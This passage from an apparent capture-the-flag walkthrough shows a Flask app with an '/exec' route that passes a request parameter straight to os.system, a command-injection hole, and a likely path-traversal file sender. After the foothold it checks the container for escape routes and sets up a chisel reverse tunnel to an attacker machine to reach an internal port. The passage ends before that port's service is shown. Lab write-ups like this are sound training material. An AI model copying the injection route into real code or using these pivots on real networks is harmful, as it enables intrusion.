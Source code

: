 ```python
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))


@app.route('/exec')
def cmd():
    return os.system(request.args.get('cmd'))
```

## User
Once we get a foothold into the container we can run `deepce.sh` to check if there is any misconfiguration in the running container that can allow us to evade the container. Unfortunately we cannot find anything.  
If we remember, during our initial nmap scan we found a filtered port 3000 that we assumed was listening on localhost.  
Now we can try to use this container as a proxy to reach that port and see if we can exploit the service.  
If we look at the interfaces:  
```shell
/app # ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:03  
          inet addr:172.17.0.3  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2814 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2460 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:981877 (958.8 KiB)  TX bytes:1483557 (1.4 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```
We can see that the container has the IP `172.17.0.3`,  hence we can assume that the router `172.17.0.1` is the actual machine where this container is running.  
Now, as we did for [Antique](Antique.md) we can set up chisel to forward the port 3000 to our host making the container acting as a proxy between our host and localhost.  
On our machine, we can run the following command:  
```shell
[root@kali chisel (master)]$ ./chisel server -p 8000 --reverse
2022/08/01 14:35:28 server: Reverse tunnelling enabled
2022/08/01 14:35:28 server: Fingerprint ciI1E12tHUnUz/5sH6VMTLWagtwn+M2mzYVgN3ZA7FU=
2022/08/01 14:35:28 server: Listening on http://0.0.0.0:8000
2022/08/01 14:37:39 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2022/08/01 14:37:39 server: session#1: tun: proxy#R:3000=>172.17.0.1:3000: Listening
```
While, on the remote host, we can run:  
```shell
/home # ./chisel client 10.10.14.9:8000  R:3000:172.17.0.1:3000
2022/08/01 12:37:38 client: Connecting to ws://10.10.14.9:8000
2022/08/01 12:37:39 client: Connected (Latency 33.338247ms)
```
Now, if we navigate to `localhost:3000`, we can see the following:  